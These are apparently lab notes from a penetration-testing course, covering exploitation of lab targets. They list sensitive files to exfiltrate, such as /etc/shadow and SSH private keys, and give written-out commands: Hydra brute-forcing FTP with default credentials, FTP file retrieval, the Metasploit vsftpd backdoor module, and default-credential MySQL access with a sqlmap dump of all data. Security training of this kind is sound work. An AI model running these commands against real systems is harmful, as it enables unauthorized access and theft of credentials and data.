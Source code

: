 ```yaml
---
title: '4. Lab 4: Exploitation'
updated: 2023-04-23 04:14:00Z
created: 2023-04-22 20:55:19Z
---
```

# **Exploitation**
Exploitation is when we take our enumerated targets and capitalize on them.
**REPEAT DISCLAIMER**

## **Linux Exfiltration Target Files:**
- These are all target files we should keep a lookout for as they hold confidential information that could compromise CIA
	- /etc/passwd
	- /etc/shadow
	- /etc/issue
	- /etc/group
	- /etc/hostname
	- /etc/ssh/ssh_config
	- /etc/ssh/sshd_config
	- /root/.ssh/id_rsa
	- /root/.ssh/authorized_keys
	- /home/user/.ssh/authorized_keys
	- /home/user/.ssh/id_rsa

## Using Hydra to Bruteforce FTP
- Hydra is a credential bruteforcing tool included with Kali Linux
	- Type 'hydra -hh' in your terminal to view Hydra's full functioanlity:
- To bruteforce with Hydra, we will once again use wordlists, but this time we will use credential lists
	- In your Kali terminal type the following:
		- hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.1.139 -o /home/user/Documents/hydra_ftp.txt
			- The -C flag tells Hydra that the wordlist we are providing has credentials in a 'username:password' format.
			- The -o flag tells Hydra we want to output the results to a text file called hydra_ftp in our Documents folder.
	- Now that we have some credentials from Hydra, type the following in your terminal:
		- ftp 192.168.9.239
			- You will be prompted to log in.
			- Let's try some credential form our bruteforce attack:
			- Username: "user" : Password: "user"
			- Check the current working directory with "pwd"
			- Check the folders and files with "dir"
			- Move back a directory with "cd .."
			- One more time "cd .."
			- "dir" to view all files and folders again
			- See any files worth exfiltrating?
			- Use "get <filename>" in your terminal to retrieve them

## Exploiting FTP With Metasploit
- In your Kali terminal type **msfconsole**
- **msfconsole>** search 'ftp'
	- [NVD - CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- **msfconsole**> use exploit/unix/ftp/vsftpd_234_backdoor

## Exploiting MySql Manually
- To log into MySql, we use the following login template in our terminals:
	- mysql -h {hostname} -u username -p {databasename}
- Since we don't have any credentials yet, let's do some research on default MySql creds
	- [MySQL - What is the Default Username and Password?](https://dbschema.com/2020/04/21/mysql-default-username-password/#:~:text=The%20default%20user%20for%20MySQL,it%20and%20choose%20another%20one.)
- Using info from our research, we can try the default credentials for MySql
- In your terminal type:
	- mysql -u root -h 192.168.1.103 -p
	- Here we use the -u flag for a username of 'root'
	- Since the default password for MySql is empty, we leave the -p (password) flag empty as well
- Using MySQL in the terminal:
	- From the mysql> prompt:
	- SHOW DATABASES
		- "use 'database_name'"
			- SHOW TABLES

## Exploiting MySql With SqlMap
- You may have noticed some of the other options for SqlMap in the enumeration step. Now is when we get to use them.
- In your terminal, type the following:
	- sqlmap -d "mysql://root:@192.168.9.239:3306/" ---dump-all --output-dir=/home/user/Documents/ 
